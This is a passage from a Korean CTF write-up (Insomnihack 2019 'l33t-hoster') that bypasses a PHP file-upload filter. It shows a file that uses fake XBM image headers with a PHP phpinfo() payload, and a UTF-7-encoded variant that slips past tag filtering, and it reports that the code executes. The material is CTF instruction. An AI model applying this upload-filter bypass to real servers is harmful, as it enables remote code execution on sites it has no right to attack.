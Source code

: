 그럼 이제 새로운 `.aaa` 파일을 업로드 하는데, 코드의 내용을 `UTF-7`로 인코딩 해 업로드 하면 아마 자동으로 `UTF-7` 디코딩을 하여 실행할 수 있을 것이다.  

`code.aaa`라는 파일을 아래와 같이 만들었다.  

* code.aaa (원본)
```
#define test_width 1337
#define test_height 1337
<? phpinfo();
```

* code.aaa (UTF-7 버전)
```
#define test_width 1337
#define test_height 1337
+ADw?php phpinfo()+ADs-
```

`UTF-7 인코딩`은 [여기](http://toolswebtop.com/text/process/encode/utf-7)에서 했다.  

파일 두개를 업로드 한 결과 아래와 같이 드디어 `phpinfo()`를 실행할 수 있었다!  

![](/images/CTF/insomnihack2019/l33t-hoster/l33t_03.png)  
